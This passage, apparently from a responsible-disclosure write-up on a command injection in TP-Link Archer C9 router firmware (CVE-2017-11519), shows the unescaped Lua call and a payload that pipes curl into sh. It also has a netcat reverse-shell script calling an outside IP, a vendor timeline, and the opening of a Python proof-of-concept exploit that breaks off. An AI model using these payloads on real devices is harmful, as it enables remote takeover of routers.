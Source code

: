 ```lua
sys.call("usbuser " .. username .. " '" .. password .. "'")
```

Username and password are unescaped, but are limited to 16 characters and must be in the ascii range of 33-126 (no spaces).

After some more testing I found the following payload could be used to execute a remote script:

```python
web = "hack.me/s"
username = ";curl"
password = "%s'|sh'"%web
```

So long as `web` is 10 or less characters, the router will execute whatever commands are returned. I tested and got a simple reverse shell using:

```bash
#!/bin/sh

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 123.123.123.123 12345 >/tmp/f &
```

## Timeline

TP-Link quick were great to work with, they quickly responded to the initial report and published an update firmware within 3 weeks.

* 2017-04-20 - Contacted TP-Link with initial findings
* 2017-04-20 - TP-Link responded asking for more details
* 2017-04-26 - TP-Link responded saying they are still investigating
* 2017-04-28 - TP-Link confirmed issues and are working on a fix
* 2017-04-28 - TP-Link send beta firmware to ensure issue was resolved
* 2017-05-11 - TP-Link published updated firmware

## Links
* [CVE-2017-11519](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11519)
* [Archer C9 V2 Firemware](http://www.tp-link.com/en/download/Archer-C9_V2.html#Firmware)

## POC Scripts

`tplink.py`:
```python
#!/usr/bin/env python

import requests
import email.utils as eut
import math
import sys
import utils


class TPLinkPwn:
	def __init__(self, url):
	    self.url = url
	    self.cookies = None
	    self.token = ""
	    self.key = None

	def post(self, path, data):
		return requests.post('%s/cgi-bin/luci/;stok=%s/%s'%(self.url, self.token, path), data=data, cookies=self.cookies)

	def createCode(self):
		data = {
			"operation": "read",
```